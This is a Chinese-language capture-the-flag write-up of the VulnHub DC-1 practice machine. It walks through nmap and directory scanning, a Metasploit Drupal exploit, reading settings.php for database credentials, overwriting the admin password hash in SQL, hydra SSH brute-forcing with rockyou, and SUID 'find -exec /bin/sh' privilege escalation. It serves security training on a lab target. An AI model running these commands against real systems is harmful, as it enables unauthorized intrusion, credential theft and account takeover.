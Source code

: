 ## 环境准备

官网下载 https://download.vulnhub.com/dc/DC-1.zip

下载解压，得到.ova文件，导入到VM中打开加载即可使用。

![img](assets/1684305856441-3ddc5323-da36-48dc-a9f5-35025739a120.png)

注意将dc-1机器与kali设置网络可以互通（桥接、nat都可以）。

## 测试过程

### 1.信息收集

#### 主机发现与端口扫描

当前仅仅知道目标与我们在同一网段，但不能确定具体的IP，因此使用探测工具扫描以下，寻找网段内存活主机，定位目标。

nmap -sn -PR -n -v 192.168.1.0/24, 探测到存活主机192.168.1.137

![img](assets/1684306900364-f68c6f0c-3d3c-41c8-9404-48a00916da14.png)

进一步探测系统、端口开放情况等信息：nmap -sV -p- 192.168.1.137

![img](assets/1684307461497-5922f98b-4448-465d-bc13-72d17d4ba1be.png)

探测到22、80端口，这都可能出现可利用的点，记录备用。

#### 具体服务探测

浏览器访问80web端口：

![img](assets/1684307882182-d71347db-6a24-480b-ba3c-9d3e8224c680.png)

发现是一个cms建站，使用火狐插件wappalyzer，收集站点信息，收获如下：

```sql
cms:Drupal v7
web服务器：apache 2.2.22
语言：php-5.4.45
操作系统：Debian
js库：jQuery 1.4.4
```

这些信息，都有可能存在可利用的点，这些信息也可以通过kali自带的扫描工具whatweb进行探测：

**whatweb -v 192.168.1.137**

![img](assets/1684308343319-9beec104-6580-407b-90a6-baf461934964.png)

**目录扫描，收集更多web信息备用**

**dirsearch**

```sql
dirsearch -u 192.168.1.137 -r -t 30    递归扫描，不过容易被检测,线程控制请求速率
```

![img](assets/1684309341247-b75bf033-61a9-4188-81f7-bf0cacf7e843.png)

![img](assets/1684309362746-42373de3-0f13-4a6d-9eab-896cb4bd4af6.png)

有一些收获，记录备用。

### 2.漏洞探测与利用

针对80端口开放的web服务，搜寻一下有没有cms历史漏洞可以加以利用

![img](assets/1684309498420-f57c9bbf-f273-44a5-a1dd-5681b5248840.png)

可以看到，是存在历史漏洞的。为方便利用，在msf框架中搜索一下，有没有集成相关exp:

![img](assets/1684309752968-886fb2d9-a1eb-4242-9ab7-d84206040e23.png)

有集成相关exp，选择一个较新的攻击一下：

![img](assets/1684310360433-ea8ba47e-3005-4ada-8472-d082c0500f59.png)

攻击成功，建立起msf的meterpreter会话，之后用python拿一个稳定的shell:

![img](assets/1684313984568-5b7b531a-16c8-4be8-84b7-b2052000581a.png)

 到这里，我们进入到了DC1的www-data用户下，并在当前目录下发现了flag1.txt，我们查看flag1.txt，得到提示：任何一个完善的CMS都需要配置文件---所以你应该怎么做。

![img](assets/1684314014085-084101c5-c19d-426c-be4e-a0539714ca7c.png)

 根据提示看一下配置文件，一般来说配置文件都有一些特别重要的信息在里面，搞不好还能提权，百度Drupal配置文件，路径挺复杂的，不过知道了名字叫settings.php，我们可以用命令直接搜索并打开，内联执行 ：

```sql
cat `find / -name settings.php`
```

![img](assets/1684314844244-04e3426d-4160-4e44-86fa-b1b13ea02b9b.png)

找到flag2，同时发现数据库配置： db=drupaldb，username=dbuser，password=“R0ck3t”  

使用获取到的数据库账号密码进行数据库登录   **mysql -u dbuser -pR0ck3t**

![img](assets/1684377903947-acfde9cc-9b16-489d-83aa-e4219e8fe02f.png)

数据库操作，查找用户、密码等信息，在drupaldb数据库的user表中，找到admin用户的记录，以及hash加密的密码

```sql
| admin | $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR |
| Fred  | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg |
```

![img](assets/1684378204935-15a6943f-8fff-4a74-bbf3-e6ada3d83b9b.png)

这时想要直接登录，不可能了，搜索一下能不能改掉密码之类的操作：

[分享：忘记Drupal的管理员密码的解决办法 | Drupal China](https://drupalchina.cn/node/2128)

法一：用原生加密脚本，加密生成一个我们自己的知道的简单密码，然后在数据库中替换掉原来密码：搜索知道加密脚本在：

```sql
/var/www/scripts/password-hash.sh
```

使用脚本，加密我们的密码

```sql
php /var/www/scripts/password-hash.sh uf9n1x

password: uf9n1x    hash: $S$DRYLvdJrnjiLw/E9cT/J0CtHajJvcCiNdWdRQZivUpuqRZChIkBJ
```

![img](assets/1684378772873-10a680f7-813c-4d10-8318-38e7ea603867.png)

重新进入数据库，更新admin用户的密码

```sql
use drupaldb;update users set pass = "$S$DRYLvdJrnjiLw/E9cT/J0CtHajJvcCiNdWdRQZivUpuqRZChIkBJ" where name = 'admin' or name = 'Fred';
```

![img](assets/1684378977360-70581d50-7341-4a4d-a226-86ca9c42d22a.png)

法二、利用该cms爆出的另一个历史漏洞，可以添加管理员用户，也很简单，这里不做讨论



用我们修改的用户与密码，以网站管理员admin用户登录看看：找到了flag3

![img](assets/1684379295673-667a4467-f615-4b69-ab77-a4b4a0ca7a5c.png)

 登进去就找到了flag3，提示了我们一些信息passwd和shadow，明显就是linux的文件

​    /etc/passwd

​    该文件存储了系统用户的基本信息，所有用户都可以对其进行文件操作读

  [Linux /etc/passwd内容解释（超详细）](http://c.biancheng.net/view/839.html)

​    /etc/shadow

​    该文件存储了系统用户的密码等信息，只有root权限用户才能读取

 [Linux /etc/shadow（影子文件）内容解析（超详细）](http://c.biancheng.net/view/840.html)

先浏览一下/etc/passwd文件：

```sql
cat /etc/passwd
```

![img](assets/1684379646822-7237d05d-a640-4ba1-832d-f2895ff87c3d.png)

发现了还有个flag4用户，因为一开始信息收集发现除了80端口以外，机器还开放了22端口，因此这里思路就是爆破一下用户的密码，进行ssh链接

使用hydra爆破flag4用户的密码：[（总结）Linux下的暴力密码在线破解工具Hydra详解](http://www.ha97.com/5186.html)

```sql
hydra -l flag4 -P /usr/share/wordlists/rockyou.txt.gz ssh://192.168.1.137
```

![img](assets/1684380110678-30e46309-a6e4-4ea9-ae00-32e4dc29d549.png)

ssh远程连接: ssh@192.168.1.137     输入密码：orange,发现是普通权限用户

![img](assets/1684380314864-3a774940-9a4d-4a24-a444-923237af97df.png)![img](assets/1684380424372-362be263-4259-4ad2-b0ee-b423145b0b2e.png)

cat文件，得到flag4,提示用同样的方法拿到root用户下的flag,那么就提权到root

### 3.提权

suid提权，查找具有x权限的文件

```sql
find / -perm -u=s -type f 2>/dev/null
```

![img](assets/1684380756512-67462181-5955-46a4-8fed-4c2073f1a633.png)

发现有mount、ping、su、find等命令，都可以利用，这里以find为例：

```sql
find test.txt -exec whoami \;
find / -name index.php -exec "/bin/sh" \;
find /home -exec /bin/sh \;
python -c 'import pty;pty.spawn("/bin/sh")' 
```

![img](assets/1684381076822-7985bf63-6322-4f4c-a21b-004c5a10c883.png)生成交互式终端找到最终flag,通关

## 补充思考

回顾打靶场过程，我们发现，其实不必先登录flag4用户，直接从www-data用户提权应该也是可以的

![img](assets/1684381361553-15e845e7-5687-4949-966d-533143b15b18.png)

效果完全相同。

## 总结

1、主机发现使用nmap,也可以用来扫描目标可能存在的常规漏洞，使用vuln脚本

2、web识别扫描用插件wappalyzer、或者whatweb工具

3、suid提权

4、hydra爆破ssh链接，远程登陆

5、针对webcms,要进行广泛且细致的信息收集工作，比如配置文件、加密文件的位置，等等，往往有惊喜